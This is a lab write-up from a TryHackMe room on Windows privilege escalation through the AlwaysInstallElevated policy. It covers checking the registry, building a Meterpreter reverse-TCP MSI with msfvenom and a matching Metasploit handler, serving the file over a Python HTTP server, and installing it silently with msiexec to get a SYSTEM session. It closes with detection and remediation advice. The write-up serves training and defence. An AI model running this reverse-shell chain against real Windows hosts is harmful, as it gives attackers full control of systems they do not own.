








# AlwaysInstallElevated — Windows Privilege Escalation

> **Platform:** TryHackMe  
> **Room:** Windows PrivEsc Arena  
> **Operating System:** Windows 7 Professional  
> **Technique:** AlwaysInstallElevated Policy Abuse  
> **Initial Context:** Standard local user  
> **Final Context:** `NT AUTHORITY\SYSTEM`  
> **Attack Type:** Malicious Windows Installer Package  
> **MITRE ATT&CK:** T1548.002 — Bypass User Account Control  
> **CWE:** CWE-250 — Execution with Unnecessary Privileges

---

## Disclaimer

This write-up documents an authorized TryHackMe training environment.

Target addresses, VPN addresses, credentials, flags, and challenge answers have been removed or replaced with placeholders. The generated MSI payload was used only inside the authorized laboratory and is not included in this repository.

---

## Executive Summary

The Windows host was configured with the `AlwaysInstallElevated` policy enabled in both the machine-wide and current-user registry locations.

The following registry values were present:

```text
HKLM\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

```text
HKCU\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

When both values are enabled, Windows allows the current user to install Windows Installer packages with elevated privileges.

A malicious MSI package containing a Meterpreter reverse TCP payload was generated and transferred to the Windows host. The low-privileged user installed the package using `msiexec`.

Although the installation command was started by an ordinary user, Windows Installer processed the MSI package with elevated privileges. The embedded payload therefore executed as:

```text
NT AUTHORITY\SYSTEM
```

This resulted in complete local compromise of the Windows system.

---

## Attack Path

```text
Enumerate Windows Installer policies
                    ↓
Query the machine-wide HKLM policy
                    ↓
Confirm AlwaysInstallElevated = 1
                    ↓
Query the current-user HKCU policy
                    ↓
Confirm AlwaysInstallElevated = 1
                    ↓
Generate a malicious MSI package
                    ↓
Configure a matching Metasploit handler
                    ↓
Transfer setup.msi to the Windows host
                    ↓
Place setup.msi in C:\Temp
                    ↓
Install it using msiexec
                    ↓
Windows Installer processes the MSI with elevated privileges
                    ↓
The embedded payload connects to Kali
                    ↓
Meterpreter session opens as NT AUTHORITY\SYSTEM
```

---

# 1. Understanding AlwaysInstallElevated

## What is Windows Installer?

Windows Installer is a Windows component responsible for installing, modifying, repairing, and removing software packages that use the MSI format.

MSI stands for:

```text
Microsoft Installer
```

An MSI package can contain:

- Application files
- Registry modifications
- Installation instructions
- Services
- Shortcuts
- Custom actions
- Executable code used during installation

The Windows Installer executable is:

```text
msiexec.exe
```

The related Windows service is commonly known as:

```text
Windows Installer
```

with the service name:

```text
msiserver
```

## What is AlwaysInstallElevated?

`AlwaysInstallElevated` is a Windows Installer policy intended to allow managed MSI packages to install with elevated privileges.

The policy exists in two different scopes:

```text
HKLM
```

represents the machine-wide policy.

```text
HKCU
```

represents the policy for the currently logged-on user.

For the vulnerable condition to exist, the value must normally be enabled in both locations:

```text
HKLM\Software\Policies\Microsoft\Windows\Installer
HKCU\Software\Policies\Microsoft\Windows\Installer
```

The value is stored as a registry `DWORD`:

```text
AlwaysInstallElevated = 1
```

A value of `1`, represented in the command output as `0x1`, means the policy is enabled.

When both policies are active, an ordinary user may install an MSI package with elevated privileges. If that MSI package contains attacker-controlled code, the code may also execute with those elevated privileges.

---

# 2. Detecting the Vulnerable Policy

The machine-wide Windows Installer policy was queried using:

```cmd
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```

The current user's Windows Installer policy was queried using:

```cmd
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```

The results showed:

```text
AlwaysInstallElevated    REG_DWORD    0x1
```

in both locations.



## Understanding the registry commands

### `reg query`

```cmd
reg query
```

reads values from the Windows Registry.

It does not modify the configuration.

### `HKLM`

```text
HKEY_LOCAL_MACHINE
```

contains machine-wide operating-system and application configuration.

The value under `HKLM` indicates that Windows Installer packages may be elevated at the computer-policy level.

### `HKCU`

```text
HKEY_CURRENT_USER
```

contains configuration associated with the currently logged-on user.

The value under `HKCU` indicates that the same behavior is enabled for that user.

## Why both values matter

Checking only one registry path is insufficient.

The vulnerable configuration requires the machine and user policies to agree:

```text
HKLM AlwaysInstallElevated = 1
HKCU AlwaysInstallElevated = 1
```

If either value is missing or set to `0`, the standard AlwaysInstallElevated privilege-escalation path should not be considered confirmed.

The screenshot proves that both values were enabled.

---

# 3. Why This Configuration Is Dangerous

A standard user should not normally be able to execute arbitrary installation code with administrative or SYSTEM privileges.

With AlwaysInstallElevated enabled, the security relationship becomes:

```text
Low-privileged user controls MSI package
                  ↓
Windows Installer elevates MSI installation
                  ↓
MSI-controlled code executes with elevated privileges
```

An MSI package is not merely a compressed collection of files. It can include executable installation logic and custom actions.

Therefore, allowing an unprivileged user to install arbitrary MSI packages with elevation effectively allows that user to influence privileged code execution.

The vulnerability is not in the MSI file format itself. The weakness is the insecure Windows policy that elevates MSI installations initiated by untrusted users.

---

# 4. Preparing the Metasploit Handler

A Metasploit handler was configured on Kali:

```text
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <KALI_VPN_IP>
set LPORT 4444
set ExitOnSession false
run
```



## What does `multi/handler` do?

The module:

```text
exploit/multi/handler
```

does not exploit AlwaysInstallElevated.

It waits for the payload embedded inside the MSI package to connect back.

The privilege escalation occurs on Windows when the MSI package is processed with elevated privileges.

The handler is only responsible for receiving and managing the resulting Meterpreter session.

## Payload breakdown

```text
windows
```

specifies that the target operating system is Windows.

```text
meterpreter
```

provides an interactive Meterpreter session.

```text
reverse_tcp
```

causes the Windows target to initiate an outbound TCP connection to Kali.

## LHOST

```text
LHOST <KALI_VPN_IP>
```

is the Kali address embedded in the payload.

In a TryHackMe laboratory, this should normally be the reachable VPN address assigned to `tun0`:

```bash
ip addr show tun0
```

## LPORT

```text
LPORT 4444
```

is the port on which Metasploit waits for the connection.

The handler and generated payload must use the same address and port.

Although port `4444` may be the default, configuring it explicitly makes the procedure clearer and reproducible.

---

# 5. Generating the MSI Payload

The malicious Windows Installer package was generated with:

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
LHOST=<KALI_VPN_IP> \
LPORT=4444 \
-f msi \
-o setup.msi
```



## Command explanation

### `msfvenom`

`msfvenom` generates payloads in multiple executable and script formats.

In this case, it was used to create a Windows Installer package.

### Payload

```bash
-p windows/meterpreter/reverse_tcp
```

selects a 32-bit Windows Meterpreter reverse TCP payload.

The generated output confirmed that the selected architecture was:

```text
x86
```

### Callback address

```bash
LHOST=<KALI_VPN_IP>
```

embeds the Kali callback address inside the MSI package.

### Callback port

```bash
LPORT=4444
```

configures the payload to connect to the handler on TCP port `4444`.

### MSI output format

```bash
-f msi
```

packages the payload as a Microsoft Installer file.

### Output filename

```bash
-o setup.msi
```

saves the generated package as:

```text
setup.msi
```

The MSI file is not included in this repository because it contains an executable payload.

---

# 6. Hosting the MSI Package

A temporary Python HTTP server was started from the directory containing `setup.msi`:

```bash
python3 -m http.server 80
```



The server listened on:

```text
0.0.0.0:80
```

This means it accepted HTTP connections through every available Kali network interface.

The server output later recorded:

```text
GET /setup.msi HTTP/1.1 200
```

The HTTP status code:

```text
200
```

confirmed that the Windows host successfully retrieved the MSI package.

The `404` request for:

```text
favicon.ico
```

was generated automatically by the browser and was unrelated to the attack.

---

# 7. Transferring the MSI to Windows

The Kali HTTP server was opened from the Windows browser:

```text
http://<KALI_VPN_IP>/
```

The hosted MSI package was selected and downloaded.



The package was placed in:

```text
C:\Temp\setup.msi
```



The `C:\Temp` directory was used because it provided a simple writable location from which the low-privileged user could execute the installer.

The MSI did not need to be placed inside a protected Windows directory. The privilege escalation depended on the Windows Installer policy, not on the MSI file's storage location.

---

# 8. Executing the MSI Package

The MSI package was installed with:

```cmd
msiexec /quiet /qn /i C:\Temp\setup.msi
```



## Command explanation

### `msiexec`

```cmd
msiexec
```

starts the Windows Installer executable.

### `/i`

```cmd
/i C:\Temp\setup.msi
```

instructs Windows Installer to install the specified MSI package.

### `/quiet`

```cmd
/quiet
```

runs the installation without displaying normal user-interface dialogs.

### `/qn`

```cmd
/qn
```

sets the user-interface level to none.

Both `/quiet` and `/qn` suppress installation windows. Using both is somewhat redundant, but it clearly expresses that the package should run without an interactive installer interface.

The command appeared to return immediately to the prompt because the MSI installation was performed silently.

---

# 9. What Happened Behind the Scenes

The low-privileged user launched:

```text
msiexec.exe
```

However, the MSI installation was not limited to the ordinary user's security context.

Because the following policies were enabled:

```text
HKLM AlwaysInstallElevated = 1
HKCU AlwaysInstallElevated = 1
```

Windows Installer treated the package as an elevated installation.

The internal process can be represented as:

```text
Low-privileged user starts msiexec
                    ↓
msiexec reads setup.msi
                    ↓
Windows Installer checks installation policy
                    ↓
AlwaysInstallElevated is enabled in HKLM and HKCU
                    ↓
Windows Installer service processes the package with elevated privileges
                    ↓
The MSI installation logic is executed
                    ↓
The embedded Meterpreter payload runs
                    ↓
The payload opens an outbound TCP connection to Kali
                    ↓
Metasploit sends the Meterpreter stage
                    ↓
The session inherits NT AUTHORITY\SYSTEM
```

The user did not need to know an administrator password.

The user also did not need to modify a protected service or executable.

The insecure Windows Installer policy itself provided the elevation path.

---

# 10. Receiving the SYSTEM Session

The Metasploit handler received a connection after the MSI package was executed:

```text
Meterpreter session 1 opened
```

The session identity was verified using:

```text
getuid
```

The result was:

```text
Server username: NT AUTHORITY\SYSTEM
```



This confirmed successful local privilege escalation from an ordinary user to the most privileged local Windows security context.

---

# 11. Understanding NT AUTHORITY\SYSTEM

`NT AUTHORITY\SYSTEM`, also known as the Local System account, is a built-in Windows identity used by the operating system and highly privileged services.

SYSTEM generally has:

- Full access to local files
- Full access to the local registry
- Control over Windows services
- Access to other users' files
- Extensive system privileges
- Authority to create and modify local accounts
- Access beyond that of a normal local administrator in many contexts

The privilege transition was therefore:

```text
Standard local user
        ↓
NT AUTHORITY\SYSTEM
```

This represents full local compromise of the Windows host.

---

# 12. Why the Attack Worked

The privilege escalation depended on the following conditions:

1. `AlwaysInstallElevated` was enabled in `HKLM`.
2. `AlwaysInstallElevated` was enabled in `HKCU`.
3. The low-privileged user could create or download an MSI package.
4. The user could execute `msiexec`.
5. The target could reach the Kali VPN address.
6. The payload and Metasploit handler used matching settings.
7. The callback port was not blocked.
8. No antivirus, EDR, AppLocker, or application-control policy blocked the MSI or its embedded payload.

The first two conditions were the underlying vulnerability.

The remaining conditions made exploitation possible in the laboratory.

---

# 13. Security Classification

## Vulnerability

```text
AlwaysInstallElevated Enabled for Machine and User
```

## Attack type

```text
Malicious MSI Installation
```

## Impact

```text
Local Privilege Escalation to NT AUTHORITY\SYSTEM
```

## MITRE ATT&CK

```text
T1548.002 — Bypass User Account Control
```

This technique includes abusing Windows mechanisms that allow code to execute with elevated privileges.

Depending on how the activity is categorized, execution through `msiexec.exe` can also be associated with:

```text
T1218.007 — System Binary Proxy Execution: Msiexec
```

`msiexec.exe` is a trusted Windows binary that can be abused to execute installer-controlled code.

## CWE

```text
CWE-250 — Execution with Unnecessary Privileges
```

The Windows Installer package was allowed to execute with more privilege than the initiating user should have possessed.

---

# 14. Detection Opportunities

## Registry auditing

Defenders should query or monitor:

```text
HKLM\Software\Policies\Microsoft\Windows\Installer
HKCU\Software\Policies\Microsoft\Windows\Installer
```

The dangerous value is:

```text
AlwaysInstallElevated = 1
```

Both registry locations should be reviewed.

## Process monitoring

Monitor suspicious execution of:

```text
msiexec.exe
```

especially when used by non-administrative users with command-line options such as:

```text
/quiet
/qn
/i
```

Example suspicious pattern:

```text
msiexec /quiet /qn /i C:\Users\<user>\Downloads\unknown.msi
```

or:

```text
msiexec /quiet /qn /i C:\Temp\unknown.msi
```

## File monitoring

Alert on MSI packages created or downloaded into user-writable locations such as:

```text
C:\Temp
C:\Users\<user>\Downloads
C:\Users\Public
%TEMP%
```

## Network monitoring

Investigate unusual outbound connections created shortly after `msiexec.exe` starts.

## Endpoint monitoring

Useful indicators include:

- `msiexec.exe` launched by a standard user
- Unsigned MSI packages
- MSI files downloaded over HTTP
- Silent installations from temporary directories
- Network connections originating from installer-related processes
- Child processes created by `msiexec.exe`
- Meterpreter-like staged network communication

---

# 15. Remediation

The `AlwaysInstallElevated` policy should be disabled in both the machine and user policy scopes.

## Registry remediation

The values should be set to `0` or removed:

```text
HKLM\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated = 0
```

```text
HKCU\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated = 0
```

## Group Policy remediation

The policy should be disabled under both locations.

Machine policy:

```text
Computer Configuration
    → Administrative Templates
        → Windows Components
            → Windows Installer
                → Always install with elevated privileges
```

User policy:

```text
User Configuration
    → Administrative Templates
        → Windows Components
            → Windows Installer
                → Always install with elevated privileges
```

Both should be configured as:

```text
Disabled
```

or left unconfigured where the environment does not require the policy.

## Additional controls

- Restrict software installation to authorized administrators or deployment systems.
- Use AppLocker or Windows Defender Application Control.
- Block unsigned or unapproved MSI packages.
- Monitor `msiexec.exe` command lines.
- Prevent users from downloading executable installer content from untrusted sources.
- Deploy EDR rules for suspicious MSI custom actions.
- Review Group Policy periodically for insecure settings.
- Audit temporary and user-writable directories for installer packages.
- Apply least privilege to software deployment processes.

---

# 16. Lessons Learned

The presence of `AlwaysInstallElevated` in only one registry location is not enough to confirm the vulnerability. Both the machine and user policy values must be checked.

The important enumeration sequence is therefore:

```text
Check HKLM
Check HKCU
Confirm both values equal 1
```

The attack demonstrates that security policies can create privilege-escalation paths even when file and service permissions are correctly configured.

The low-privileged user did not exploit memory corruption or a software vulnerability. The user abused a legitimate Windows installation feature that had been configured insecurely.

The central lesson is:

> A trusted installation mechanism becomes a privilege-escalation primitive when untrusted users are allowed to supply the code it executes with elevated privileges.

---

## Tools Used

| Tool | Purpose |
|---|---|
| `reg.exe` | Query Windows Installer policy values |
| Metasploit Framework | Receive and manage the Meterpreter connection |
| `msfvenom` | Generate the malicious MSI package |
| Python HTTP server | Transfer the MSI package to Windows |
| Internet Explorer | Download the MSI from Kali |
| `msiexec.exe` | Install the MSI package |
| Meterpreter | Verify the resulting SYSTEM security context |

---

## Evidence Summary

| Evidence | Finding |
|---|---|
| Registry policy query | `AlwaysInstallElevated` enabled in HKLM and HKCU |
| Metasploit configuration | Matching Meterpreter reverse TCP handler |
| MSI generation | Windows x86 MSI payload created |
| HTTP server logs | `setup.msi` downloaded successfully |
| Windows filesystem | MSI staged in `C:\Temp` |
| MSI execution | Package installed silently using `msiexec` |
| Meterpreter result | Session opened as `NT AUTHORITY\SYSTEM` |

---

## References

- Microsoft documentation for Windows Installer
- Microsoft documentation for `msiexec`
- Microsoft Group Policy documentation
- MITRE ATT&CK T1548.002 — Bypass User Account Control
- MITRE ATT&CK T1218.007 — System Binary Proxy Execution: Msiexec
- CWE-250 — Execution with Unnecessary Privileges
